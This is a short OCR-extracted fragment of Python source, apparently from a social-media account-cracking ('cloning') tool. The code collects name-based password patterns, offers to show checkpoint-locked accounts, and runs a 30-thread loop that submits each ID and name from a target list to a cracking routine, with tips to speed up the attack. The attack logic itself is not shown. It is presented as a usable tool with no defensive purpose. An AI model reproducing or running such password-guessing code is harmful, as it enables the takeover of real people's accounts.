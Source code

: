                                 mthd=input('\033[1;32m Choose: ')

                                linex()

                                plist = []

                                try:

                                        ps_limit = int(input(' \033[1;32mHow many passwords do you want to add ? '))

                                except:

                                        ps_limit =1

                                linex()

                                print('\033[1;32m exp:  first123 , last123 , firstlast ')

                                linex()

                                for i in range(ps_limit):

                                        plist.append(input(f' \033[1;32mPut password {i+1}: '))

                                linex()

                                print('\033[1;32m Do you went show cp account? (y/n): ')

                                linex()

                                cx=input('\033[1;32m Choose: ')

                                if cx in ['y','Y','yes','Yes','1']:

                                        pcp.append('y')

                                else:

                                        pcp.append('n')

                                with tred(max_workers=30) as crack_submit:

                                        clear()

                                        total_ids = str(len(fo))

                                        print(' Total account : \033[1;32m'+total_ids+f'')

                                        print("\033[1;37m \x1b[38;5;208mUse flight mode for speed up\033[1;37m")

                                        print("\x1b[1;93m Please Wait Cloning started...")

                                        

                                        linex()

                                        for user in fo:

                                                ids,names = user.split('|')

                                                passlist = plist

                                                if mthd in ['1','01']:

                                                        crack_submit.submit(Booda1,ids,names,passlist)
